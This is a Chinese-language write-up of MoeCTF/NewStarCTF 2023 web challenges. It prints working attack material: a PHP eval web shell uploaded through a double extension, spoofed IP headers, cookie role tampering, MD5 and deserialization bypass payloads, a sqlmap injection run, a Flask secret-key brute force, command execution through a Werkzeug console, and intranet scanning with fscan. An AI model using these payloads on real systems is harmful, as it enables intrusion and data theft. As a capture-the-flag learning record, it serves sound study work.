

http
this is GET method,
your mission:
1.use parameter: UwU=u
2.post **form**: Luv=u
3.use admin character
4.request from 127.0.0.1
5.use browser 'MoeBrowser'
Complete All Missions考察基础的http协议

POST / HTTP/1.1
Host: example.com
User-Agent: NewStarCTF2023
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://example.com
Connection: close
Referer: newstarctf.com
Cookie: power=ctfer
X-Real-Ip:127.0.0.1
Client-Ip: 127.0.0.1
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1
secret=n3wst4rCTF2023g00000d
伪造IP
X-Forwarded-For:127.0.0.1
Client-ip:127.0.0.1
X-Client-IP:127.0.0.1
X-Remote-IP:127.0.0.1
X-Rriginating-IP:127.0.0.1
X-Remote-addr:127.0.0.1
HTTP_CLIENT_IP:127.0.0.1
X-Real-IP:127.0.0.1
X-Originating-IP:127.0.0.1
via:127.0.0.1 代理web入门指北
文末有一串密文
666c61673d6257396c5933526d6533637a62454e7662575666564739666257396c5131524758316379596c396a61474673624756755a3055684958303d
这是一串16进制编码，解码得到
bW9lY3Rme3czbENvbWVfVG9fbW9lQ1RGX1cyYl9jaGFsbGVuZ0UhIX0=
flag的内容解码得到
moectf{w3lCome_To_moeCTF_W2b_challengE!!}
彼岸的flag
F12源码中被撤回的消息那里有flag
Cookie
附件中有一些api说明
注册 POST /register
{
"username":"koito",
"password":"123456"
}登录 POST /login
{
"username":"koito",
"password":"123456"
}获取flag GET /flag
查询服务状态 `GET /status
按照流程注册并登陆后，返回了Cookie
Set-Cookie: token=eyJ1c2VybmFtZSI6ICJoc2FkIiwgInBhc3N3b3JkIjogIjEyMzQ1NiIsICJyb2xlIjogInVzZXIifQ==;
base64decode：
{"username": "hsad", "password": "123456", "role": "user"}将role改为admin并作为Cookie访问/flag得到flag
gas!gas!gas!(Spider)
如何漂移
- 油门大轮胎转速高空转，抓地力就小，反之抓地力大
- 保持反打，根据弯方向提示，反打反向
- 在0.5s内快速反应，并坚持下来五轮
- 重新随便提交一次操作来重新开始
<form action="/" method="POST">
<label for="driver">选手:</label>
<input type="text" id="driver" name="driver" required><br><br>
<label for="steering_control">方向控制:</label>
<select id="steering_control" name="steering_control" required>
<option value="-1">左</option>
<option value="0" selected>直行</option>
<option value="1">右</option>
</select><br><br>
<label for="throttle">油门控制:</label>
<select id="throttle" name="throttle" required>
<option value="0">松开</option>
<option value="1">保持</option>
<option value="2" selected>全开</option>
</select><br><br>
<input type="submit" value="提交">
</form>根据返回的提示来改变每次赛车的操作，不过有时间限制，所以要编写脚本完成
import requests
import re
url = 'http://localhost:3906/'
headers = {"Content-Type": "application/x-www-form-urlencoded"}
session = requests.session()
post_data = "driver=hsad&steering_control=0&throttle=0}"
post = session.post(
url=url,
data=f"{post_data}",
headers=headers
)
print(re.findall(r'<h3><font color="red">(.*)</font></h3></div>', post.text)[0])
steering_control = 0
throttle = 0
for _ in range(8):
if '弯道向左' in post.text:
steering_control = 1
if '弯道向右' in post.text:
steering_control = -1
if '弯道直行' in post.text:
steering_control = 0
if '保持这个速度' in post.text:
throttle = 1
if '抓地力太大了' in post.text:
throttle = 2
if '抓地力太小了' in post.text:
throttle = 0
steering_control_dic = {
'-1': '左',
'0': '直行',
'1': '右'
}
throttle_dic = {
'0': '松开',
'1': '保持',
'2': '全开'
}
print(f"{steering_control_dic[str(steering_control)]} {throttle_dic[str(throttle)]}")
post = session.post(
url=url,
data=f'driver=hsad&steering_control={steering_control}&throttle={throttle}',
headers=headers
)
if 'moectf' in post.text:
match = re.search(r'moectf(.*)', post.text)
if match:
print(f"{match.group(0)[:-6]}")
exit(0)
print(re.findall(r'<h3><font color="red">(.*)</font></h3>', post.text)[0])
moe图床(文件上传)
const allowedExtensions = ['png'];
const fileExtension = file.name.split('.').pop().toLowerCase();
if (!allowedExtensions.includes(fileExtension)) {
alert('只允许上传后缀名为png的文件！');
return;
}审计源码时发现，只是简单的用.作为分隔判断了第一个后缀名，于是上传
1.png.php
<?php @eval($_POST['attack']);?>
GET: http://localhost:6472/uploads/1.png.php
POST: attack=system('tac /flag');大海捞针
打开题目可见只需要bp跑一到一千的数字即可
use /?id=<1-1000> to connect to different parallel universesmeo图床(文件包含 md5)
这次增加了文件头检测于是加上GIF89a于是上传成功，不过发现并不是直接给出文件目录，而是通过参数传递，于是猜测文件包含漏洞

得到提示访问Fl3g_n0t_Here_dont_peek!!!!!.php
<?php
highlight_file(__FILE__);
if (isset($_GET['param1']) && isset($_GET['param2'])) {
$param1 = $_GET['param1'];
$param2 = $_GET['param2'];
if ($param1 !== $param2) {
$md5Param1 = md5($param1);
$md5Param2 = md5($param2);
if ($md5Param1 == $md5Param2) {
echo "O.O!! " . getenv("FLAG");
} else {
echo "O.o??";
}
} else {
echo "o.O?";
}
} else {
echo "O.o?";
}
?>简单的md5绕过，可以数组绕过，也可以md5 0e绕过
Payload：
param1=QNKCDZO¶m2=240610708
QLTHNDT -> 0e405967825401955372549139051580
QNKCDZO -> 0e830400451993494058024219903391
s878926199a -> 0e545993274517709034328855841020
param1[]=11¶m2[]=22夺命十三枪(反序列化字符串逃逸)
<?php
highlight_file(__FILE__);
require_once('Hanxin.exe.php');
$Chant = isset($_GET['chant']) ? $_GET['chant'] : '夺命十三枪';
$new_visitor = new Omg_It_Is_So_Cool_Bring_Me_My_Flag($Chant);
$before = serialize($new_visitor);
$after = Deadly_Thirteen_Spears::Make_a_Move($before);
echo 'Your Movements: ' . $after . '<br>';
try{
echo unserialize($after);
}catch (Exception $e) {
echo "Even Caused A Glitch...";
}
?>
Your Movements: O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:15:"夺命十三枪";s:11:"Spear_Owner";s:6:"Nobody";}
Far away from COOL...看到了require_once('Hanxin.exe.php');
Hanxin.exe.php
<?php
if (basename($_SERVER['SCRIPT_FILENAME']) === basename(__FILE__)) {
highlight_file(__FILE__);
}
class Deadly_Thirteen_Spears{
private static $Top_Secret_Long_Spear_Techniques_Manual = array(
"di_yi_qiang" => "Lovesickness", //11 12
"di_er_qiang" => "Heartbreak",
"di_san_qiang" => "Blind_Dragon",
"di_si_qiang" => "Romantic_charm",
"di_wu_qiang" => "Peerless",
"di_liu_qiang" => "White_Dragon",
"di_qi_qiang" => "Penetrating_Gaze",
"di_ba_qiang" => "Kunpeng",
"di_jiu_qiang" => "Night_Parade_of_a_Hundred_Ghosts", // 12 32
"di_shi_qiang" => "Overlord",
"di_shi_yi_qiang" => "Letting_Go",
"di_shi_er_qiang" => "Decisive_Victory",
"di_shi_san_qiang" => "Unrepentant_Lethality"
);
public static function Make_a_Move($move){
foreach(self::$Top_Secret_Long_Spear_Techniques_Manual as $index => $movement){
$move = str_replace($index, $movement, $move);
}
return $move;
}
}
class Omg_It_Is_So_Cool_Bring_Me_My_Flag{
public $Chant = '';
public $Spear_Owner = 'Nobody';
function __construct($chant){
$this->Chant = $chant;
$this->Spear_Owner = 'Nobody';
}
function __toString(){
if($this->Spear_Owner !== 'MaoLei'){
return 'Far away from COOL...';
}
else{
return "Omg You're So COOOOOL!!! " . getenv('FLAG');
}
}
}
?>
只要触发__toString并让Spear_Owner === 'MaoLei'就行，本来看着Make_a_Move这个方法没反应过来可以反序列化字符串逃逸，看了wp得到提示
那么只要通过Chant来构造，使反序列化字符串逃逸
先看正常的反序列化
O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:1:"1";s:11:"Spear_Owner";s:6:"Nobody";}
将Chant替换为1";s:11:"Spear_Owner";s:6:"Nobody";} ,
O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:36:"1";s:11:"Spear_Owner";s:6:"Nobody";}";s:11:"Spear_Owner";s:6:"Nobody";}
字符串增加了35，"di_yi_qiang" => "Lovesickness", //11 12 构造35个di_yi_qiang即可字符串逃逸
Payload：
GET: ?chant=di_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}
Signin
题目代码:
from secrets import users, salt
import hashlib
import base64
import json
import http.server
with open("flag.txt","r") as f:
FLAG = f.read().strip()
def gethash(*items):
c = 0
for item in items:
if item is None:
continue
c ^= int.from_bytes(hashlib.md5(f"{salt}[{item}]{salt}".encode()).digest(), "big") # it looks so complex! but is it safe enough?
return hex(c)[2:]
assert "admin" in users
assert users["admin"] == "admin"
hashed_users = dict((k,gethash(k,v)) for k,v in users.items())
eval(int.to_bytes(0x636d616f686e69656e61697563206e6965756e63696165756e6320696175636e206975616e6363616361766573206164^8651845801355794822748761274382990563137388564728777614331389574821794036657729487047095090696384065814967726980153,160,"big",signed=True).decode().translate({ord(c):None for c in "\x00"})) # what is it?
def decrypt(data:str):
for x in range(5):
data = base64.b64encode(data).decode() # ummm...? It looks like it's just base64 encoding it 5 times? truely?
return data
__page__ = base64.b64encode("PCFET0NUWVBFIGh0bWw+CjxodG1sPgo8aGVhZD4KICAgIDx0aXRsZT5zaWduaW48L3RpdGxlPgogICAgPHNjcmlwdD4KICAgICAgICBbXVsoIVtdK1tdKVshK1tdKyEhW10rISFbXV0rKFtdK3t9KVsrISFbXV0rKCEhW10rW10pWyshIVtdXSsoISFbXStbXSlbK1tdXV1bKFtdK3t9KVshK1tdKyEhW10rISFbXSshIVtdKyEhW11dKyhbXSt7fSlbKyEhW11dKyhbXVtbXV0rW10pWyshIVtdXSsoIVtdK1tdKVshK1tdKyEhW10rISFbXV0rKCEhW10rW10pWytbXV0rKCEhW10rW10pWyshIVtdXSsoW11bW11dK1tdKVsrW11dKyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdXSsoISFbXStbXSlbK1tdXSsoW10re30pWyshIVtdXSsoISFbXStbXSlbKyEhW11dXSgoK3t9K1tdKVsrISFbXV0rKCEhW10rW10pWytbXV0rKFtdK3t9KVsrISFbXV0rKFtdK3t9KVshK1tdKyEhW11dKyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10rISFbXV0rW11bKCFbXStbXSlbIStbXSshIVtdKyEhW11dKyhbXSt7fSlbKyEhW11dKyghIVtdK1tdKVsrISFbXV0rKCEhW10rW10pWytbXV1dWyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdXSsoW10re30pWyshIVtdXSsoW11bW11dK1tdKVsrISFbXV0rKCFbXStbXSlbIStbXSshIVtdKyEhW11dKyghIVtdK1tdKVsrW11dKyghIVtdK1tdKVsrISFbXV0rKFtdW1tdXStbXSlbK1tdXSsoW10re30pWyErW10rISFbXSshIVtdKyEhW10rISFbXV0rKCEhW10rW10pWytbXV0rKFtdK3t9KVsrISFbXV0rKCEhW10rW10pWyshIVtdXV0oKCEhW10rW10pWyshIVtdXSsoW11bW11dK1tdKVshK1tdKyEhW10rISFbXV0rKCEhW10rW10pWytbXV0rKFtdW1tdXStbXSlbK1tdXSsoISFbXStbXSlbKyEhW11dKyhbXVtbXV0rW10pWyshIVtdXSsoW10re30pWyErW10rISFbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW11dKyhbXVtbXV0rW10pWytbXV0rKFtdW1tdXStbXSlbKyEhW11dKyhbXVtbXV0rW10pWyErW10rISFbXSshIVtdXSsoIVtdK1tdKVshK1tdKyEhW10rISFbXV0rKFtdK3t9KVshK1tdKyEhW10rISFbXSshIVtdKyEhW11dKygre30rW10pWyshIVtdXSsoW10rW11bKCFbXStbXSlbIStbXSshIVtdKyEhW11dKyhbXSt7fSlbKyEhW11dKyghIVtdK1tdKVsrISFbXV0rKCEhW10rW10pWytbXV1dWyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdXSsoW10re30pWyshIVtdXSsoW11bW11dK1tdKVsrISFbXV0rKCFbXStbXSlbIStbXSshIVtdKyEhW11dKyghIVtdK1tdKVsrW11dKyghIVtdK1tdKVsrISFbXV0rKFtdW1tdXStbXSlbK1tdXSsoW10re30pWyErW10rISFbXSshIVtdKyEhW10rISFbXV0rKCEhW10rW10pWytbXV0rKFtdK3t9KVsrISFbXV0rKCEhW10rW10pWyshIVtdXV0oKCEhW10rW10pWyshIVtdXSsoW11bW11dK1tdKVshK1tdKyEhW10rISFbXV0rKCEhW10rW10pWytbXV0rKFtdW1tdXStbXSlbK1tdXSsoISFbXStbXSlbKyEhW11dKyhbXVtbXV0rW10pWyshIVtdXSsoW10re30pWyErW10rISFbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW11dKyghW10rW10pWyErW10rISFbXV0rKFtdK3t9KVsrISFbXV0rKFtdK3t9KVshK1tdKyEhW10rISFbXSshIVtdKyEhW11dKygre30rW10pWyshIVtdXSsoISFbXStbXSlbK1tdXSsoW11bW11dK1tdKVshK1tdKyEhW10rISFbXSshIVtdKyEhW11dKyhbXSt7fSlbKyEhW11dKyhbXVtbXV0rW10pWyshIVtdXSkoIStbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10pKVshK1tdKyEhW10rISFbXV0rKFtdW1tdXStbXSlbIStbXSshIVtdKyEhW11dKSghK1tdKyEhW10rISFbXSshIVtdKShbXVsoIVtdK1tdKVshK1tdKyEhW10rISFbXV0rKFtdK3t9KVsrISFbXV0rKCEhW10rW10pWyshIVtdXSsoISFbXStbXSlbK1tdXV1bKFtdK3t9KVshK1tdKyEhW10rISFbXSshIVtdKyEhW11dKyhbXSt7fSlbKyEhW11dKyhbXVtbXV0rW10pWyshIVtdXSsoIVtdK1tdKVshK1tdKyEhW10rISFbXV0rKCEhW10rW10pWytbXV0rKCEhW10rW10pWyshIVtdXSsoW11bW11dK1tdKVsrW11dKyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdXSsoISFbXStbXSlbK1tdXSsoW10re30pWyshIVtdXSsoISFbXStbXSlbKyEhW11dXSgoISFbXStbXSlbKyEhW11dKyhbXVtbXV0rW10pWyErW10rISFbXSshIVtdXSsoISFbXStbXSlbK1tdXSsoW11bW11dK1tdKVsrW11dKyghIVtdK1tdKVsrISFbXV0rKFtdW1tdXStbXSlbKyEhW11dKyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10rISFbXV0rKFtdW1tdXStbXSlbIStbXSshIVtdKyEhW11dKyghW10rW10pWyErW10rISFbXSshIVtdXSsoW10re30pWyErW10rISFbXSshIVtdKyEhW10rISFbXV0rKCt7fStbXSlbKyEhW11dKyhbXStbXVsoIVtdK1tdKVshK1tdKyEhW10rISFbXV0rKFtdK3t9KVsrISFbXV0rKCEhW10rW10pWyshIVtdXSsoISFbXStbXSlbK1tdXV1bKFtdK3t9KVshK1tdKyEhW10rISFbXSshIVtdKyEhW11dKyhbXSt7fSlbKyEhW11dKyhbXVtbXV0rW10pWyshIVtdXSsoIVtdK1tdKVshK1tdKyEhW10rISFbXV0rKCEhW10rW10pWytbXV0rKCEhW10rW10pWyshIVtdXSsoW11bW11dK1tdKVsrW11dKyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdXSsoISFbXStbXSlbK1tdXSsoW10re30pWyshIVtdXSsoISFbXStbXSlbKyEhW11dXSgoISFbXStbXSlbKyEhW11dKyhbXVtbXV0rW10pWyErW10rISFbXSshIVtdXSsoISFbXStbXSlbK1tdXSsoW11bW11dK1tdKVsrW11dKyghIVtdK1tdKVsrISFbXV0rKFtdW1tdXStbXSlbKyEhW11dKyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10rISFbXV0rKCFbXStbXSlbIStbXSshIVtdXSsoW10re30pWyshIVtdXSsoW10re30pWyErW10rISFbXSshIVtdKyEhW10rISFbXV0rKCt7fStbXSlbKyEhW11dKyghIVtdK1tdKVsrW11dKyhbXVtbXV0rW10pWyErW10rISFbXSshIVtdKyEhW10rISFbXV0rKFtdK3t9KVsrISFbXV0rKFtdW1tdXStbXSlbKyEhW11dKSghK1tdKyEhW10rISFbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10rISFbXSkpWyErW10rISFbXSshIVtdXSsoW11bW11dK1tdKVshK1tdKyEhW10rISFbXV0pKCErW10rISFbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10pKChbXSt7fSlbK1tdXSlbK1tdXSsoIStbXSshIVtdKyEhW10rW10pKyhbXVtbXV0rW10pWyErW10rISFbXV0pKyhbXSt7fSlbIStbXSshIVtdKyEhW10rISFbXSshIVtdKyEhW10rISFbXV0rKFtdK3t9KVshK1tdKyEhW11dKyghIVtdK1tdKVsrW11dKyhbXSt7fSlbKyEhW11dKygre30rW10pWyshIVtdXSkoIStbXSshIVtdKyEhW10rISFbXSkKICAgICAgICB2YXIgXzB4ZGI1ND1bJ3N0cmluZ2lmeScsJ2xvZycsJ3Bhc3N3b3JkJywnL2xvZ2luJywnUE9TVCcsJ2dldEVsZW1lbnRCeUlkJywndGhlbiddO3ZhciBfMHg0ZTVhPWZ1bmN0aW9uKF8weGRiNTRmYSxfMHg0ZTVhOTQpe18weGRiNTRmYT1fMHhkYjU0ZmEtMHgwO3ZhciBfMHg0ZDhhNDQ9XzB4ZGI1NFtfMHhkYjU0ZmFdO3JldHVybiBfMHg0ZDhhNDQ7fTt3aW5kb3dbJ2FwaV9iYXNlJ109Jyc7ZnVuY3Rpb24gbG9naW4oKXtjb25zb2xlW18weDRlNWEoJzB4MScpXSgnbG9naW4nKTt2YXIgXzB4NWYyYmViPWRvY3VtZW50W18weDRlNWEoJzB4NScpXSgndXNlcm5hbWUnKVsndmFsdWUnXTt2YXIgXzB4NGZkMjI2PWRvY3VtZW50W18weDRlNWEoJzB4NScpXShfMHg0ZTVhKCcweDInKSlbJ3ZhbHVlJ107dmFyIF8weDFjNjFkOT1KU09OW18weDRlNWEoJzB4MCcpXSh7J3VzZXJuYW1lJzpfMHg1ZjJiZWIsJ3Bhc3N3b3JkJzpfMHg0ZmQyMjZ9KTt2YXIgXzB4MTBiOThlPXsncGFyYW1zJzphdG9iKGF0b2IoYXRvYihhdG9iKGF0b2IoXzB4MWM2MWQ5KSkpKSl9O2ZldGNoKHdpbmRvd1snYXBpX2Jhc2UnXStfMHg0ZTVhKCcweDMnKSx7J21ldGhvZCc6XzB4NGU1YSgnMHg0JyksJ2JvZHknOkpTT05bXzB4NGU1YSgnMHgwJyldKF8weDEwYjk4ZSl9KVtfMHg0ZTVhKCcweDYnKV0oZnVuY3Rpb24oXzB4Mjk5ZDRkKXtjb25zb2xlW18weDRlNWEoJzB4MScpXShfMHgyOTlkNGQpO30pO30KICAgIDwvc2NyaXB0Pgo8L2hlYWQ+Cjxib2R5PgogICAgPGgxPmV6U2lnbmluPC9oMT4KICAgIDxwPlNpZ24gaW4gdG8geW91ciBhY2NvdW50PC9wPgogICAgPHA+ZGVmYXVsdCB1c2VybmFtZSBhbmQgcGFzc3dvcmQgaXMgYWRtaW4gYWRtaW48L3A+CiAgICA8cD5Hb29kIEx1Y2shPC9wPgoKICAgIDxwPgogICAgICAgIHVzZXJuYW1lIDxpbnB1dCBpZD0idXNlcm5hbWUiPgogICAgPC9wPgogICAgPHA+CiAgICAgICAgcGFzc3dvcmQgPGlucHV0IGlkPSJwYXNzd29yZCIgdHlwZT0icGFzc3dvcmQiPgogICAgPC9wPgogICAgPGJ1dHRvbiBpZCA9ICJsb2dpbiI+CiAgICAgICAgTG9naW4KICAgIDwvYnV0dG9uPgo8L2JvZHk+CjxzY3JpcHQ+CiAgICBjb25zb2xlLmxvZygiaGVsbG8/IikKICAgIGRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJsb2dpbiIpLmFkZEV2ZW50TGlzdGVuZXIoImNsaWNrIiwgbG9naW4pOwo8L3NjcmlwdD4KPC9odG1sPg==")
class MyHandler(http.server.BaseHTTPRequestHandler):
def do_GET(self):
try:
if self.path == "/":
self.send_response(200)
self.end_headers()
self.wfile.write(__page__)
else:
self.send_response(404)
self.end_headers()
self.wfile.write(b"404 Not Found")
except Exception as e:
print(e)
self.send_response(500)
self.end_headers()
self.wfile.write(b"500 Internal Server Error")
def do_POST(self):
try:
if self.path == "/login":
body = self.rfile.read(int(self.headers.get("Content-Length")))
payload = json.loads(body)
params = json.loads(decrypt(payload["params"]))
print(params)
if params.get("username") == "admin":
self.send_response(403)
self.end_headers()
self.wfile.write(b"YOU CANNOT LOGIN AS ADMIN!")
print("admin")
return
if params.get("username") == params.get("password"):
self.send_response(403)
self.end_headers()
self.wfile.write(b"YOU CANNOT LOGIN WITH SAME USERNAME AND PASSWORD!")
print("same")
return
hashed = gethash(params.get("username"),params.get("password"))
for k,v in hashed_users.items():
if hashed == v:
data = {
"user":k,
"hash":hashed,
"flag": FLAG if k == "admin" else "flag{YOU_HAVE_TO_LOGIN_IN_AS_ADMIN_TO_GET_THE_FLAG}"
}
self.send_response(200)
self.end_headers()
self.wfile.write(json.dumps(data).encode())
print("success")
return
self.send_response(403)
self.end_headers()
self.wfile.write(b"Invalid username or password")
else:
self.send_response(404)
self.end_headers()
self.wfile.write(b"404 Not Found")
except Exception as e:
print(e)
self.send_response(500)
self.end_headers()
self.wfile.write(b"500 Internal Server Error")
if __name__ == "__main__":
server = http.server.HTTPServer(("", 9999), MyHandler)
server.serve_forever()assert users["admin"] == "admin"
users中存在用户名“admin”密码也为“admin”，表面上看需要传入的参数也为admin/admin。继续分析源码可以发现eval()语句将base64.b64encode覆写为base64.b64decode
def gethash(*items):
c = 0
for item in items:
if item is None:
continue
c ^= int.from_bytes(hashlib.md5(f"{salt}[{item}]{salt}".encode()).digest(), "big") # it looks so complex! but is it safe enough?
return hex(c)[2:]
#当传入的参数items为2个时该函数等价于求两个参数的异或值并返回，所以当两个参数相等时不管该参数为何值，返回值都为0
#而传入参数有两个过滤，username不能等于“admin”，且username不能等于password，而拿到flag需要hashed值为0，怎么才能做到呢？而传入参数有两个过滤，username不能等于“admin”，且username不能等于password，而拿到flag需要hashed值为0，怎么才能做到呢？
接下来编写脚本即可把构造的json数据base64编码五次
import requests
import base64
url = "http://localhost:5946/login"
username = "\"1\""
password = "1"
jsondata = "{\"username\":"+f"{username}"+",\"password\":"+f"{password}"+"}"
print(f"{jsondata = }")
for _ in range(5):
jsondata = base64.b64encode(str(jsondata).encode()).decode()
data = "{\"params\":\""+f"{jsondata}\""+"}"
print(f"{data = }")
req = requests.post(url=url,data=data).text
print(f"{req = }")出去旅游的心海
查看源码页面可发现一个php文件链接

<?php
/*
Plugin Name: Visitor auto recorder
Description: Automatically record visitor's identification, still in development, do not use in industry environment!
Author: KoKoMi
Still in development! :)
*/
// 不许偷看！这些代码我还在调试呢！
highlight_file(__FILE__);
// 加载数据库配置，暂时用硬编码绝对路径
require_once('/var/www/html/wordpress/' . 'wp-config.php');
$db_user = DB_USER; // 数据库用户名
$db_password = DB_PASSWORD; // 数据库密码
$db_name = DB_NAME; // 数据库名称
$db_host = DB_HOST; // 数据库主机
// 我记得可以用wp提供的global $wpdb来操作数据库，等旅游回来再研究一下
// 这些是临时的代码
$ip = $_POST['ip'];
$user_agent = $_POST['user_agent'];
$time = stripslashes($_POST['time']);
$mysqli = new mysqli($db_host, $db_user, $db_password, $db_name);
// 检查连接是否成功
if ($mysqli->connect_errno) {
echo '数据库连接失败: ' . $mysqli->connect_error;
exit();
}
$query = "INSERT INTO visitor_records (ip, user_agent, time) VALUES ('$ip', '$user_agent', $time)";
// 执行插入
$result = mysqli_query($mysqli, $query);
// 检查插入是否成功
if ($result) {
echo '数据插入成功';
} else {
echo '数据插入失败: ' . mysqli_error($mysqli);
}
// 关闭数据库连接
mysqli_close($mysqli);
//gpt真好用
根据测试发现time存在报错注入

sqlmap一把梭
python3 sqlmap.py -u "http://101.42.178.83:7770/wordpress/wp-content/plugins/visitor-logging/logger.php" --data "time=1" --dbs --batch
python3 sqlmap.py -u "http://101.42.178.83:7770/wordpress/wp-content/plugins/visitor-logging/logger.php" --data "time=1" -D wordpress --tables --batch
python3 sqlmap.py -u "http://101.42.178.83:7770/wordpress/wp-content/plugins/visitor-logging/logger.php" --data "time=1" -D wordpress -T secret_of_kokomi --columns --batchmoeworld
首先爆破secret key
import itertools
import zlib
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import base64_decode
#https://github.com/noraj/flask-session-cookie-manager
class MockApp(object):
def __init__(self, secret_key):
self.secret_key = secret_key
def encode(secret_key, session_cookie_structure):
try:
app = MockApp(secret_key)
session_cookie_structure = session_cookie_structure
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.dumps(session_cookie_structure)
except Exception as e:
return "[Encoding error] {}".format(e)
def decode(session_cookie_value, secret_key=None):
if (secret_key == None):
compressed = False
payload = session_cookie_value
if payload.startswith('.'):
compressed = True
payload = payload[1:]
data = payload.split(".")[0]
data = base64_decode(data)
if compressed:
data = zlib.decompress(data)
return data
else:
app = MockApp(secret_key)
si = SecureCookieSessionInterface()
s = si.get_signing_serializer(app)
return s.loads(session_cookie_value)
cookie = ""
for c in itertools.product(range(0, 256), repeat=2):
k = bytes(c).hex()
try:
print(decode(cookie, "This-random-secretKey-you-can't-get"+k))
except Exception as e:
pass
else:
print(k)
breaksecret key是This-random-secretKey-you-can't-get06f0,有了secret key就能自己修改session为admin。admin的private留言说pin码904-474-531，所以去到http://47.115.201.35:8000/console ，输入pin码则获得console
执行系统命令：
import subprocess
subprocess.check_output(['ls','/'])
subprocess.check_output(['cat','/flag'])获得第一部分flag：moectf{Information-leakage-Is-dangerous!
还有个readme，python decode后看到提示
恭喜你通过外网渗透拿下了本台服务器的权限
接下来，你需要尝试内网渗透，本服务器的/app/tools目录下内置了fscan
你需要了解它的基本用法，然后扫描内网的ip段
如果你进行了正确的操作，会得到类似下面的结果
10.1.11.11:22 open
10.1.23.21:8080 open
10.1.23.23:9000 open
将你得到的若干个端口号从小到大排序并以 - 分割，这一串即为hint.zip压缩包的密码（本例中，密码为：22-8080-9000）
注意：请忽略掉xx.xx.xx.1，例如扫出三个ip 192.168.0.1 192.168.0.2 192.168.0.3 ，请忽略掉有关192.168.0.1的所有结果！此为出题人服务器上的其它正常服务
对密码有疑问随时咨询出题人提示用fscan，看一下help
subprocess.check_output("/app/tools/fscan --help",stderr=subprocess.STDOUT,shell=True)是这个工具： https://github.com/shadow1ng/fscan
看一下本机内网ip, 参考 https://blog.csdn.net/kuanggudejimo/article/details/99454185
import socket;s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM);s.connect(('8.8.8.8', 80));ip = s.getsockname()[0];print(ip)得到ip为172.21.0.2。扫描：
subprocess.check_output("/app/tools/fscan -h 127.21.0.2/24",stderr=subprocess.STDOUT,shell=True)得到hint.zip密码： 22-3306-6379-8080
然后不要卡在怎么配置frp进行内网穿透，那个要自己开vps，或者要有个自己的公网ip。穿透只是辅助效果，帮助我们渗透更加方便，不配置直接用python console也是可以的。也不要想用ngrok免费版，免费版只能转发一个端口，而穿透至少要两个端口。直接去搞mysql：
subprocess.check_output("cat dataSql.py",stderr=subprocess.STDOUT,shell=True)得到sql数据库交互的源码，里面有用户名和密码。连接:
db = pymysql.connect(host="mysql",port=3306,user="root",passwd="The_P0sswOrD_Y0u_Nev3r_Kn0w",database="messageboard",charset='utf8')查内容：
cursor=db.cursor()
cursor.execute("select database()")
cursor.fetchall()
(('messageboard'))
>>> cursor.execute("select(group_concat(table_name))from(information_schema.tables)where(table_schema)='messageboard'")
1
>>> cursor.fetchall()
(('flag,message,users'))
>>> cursor.execute("select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')")
1
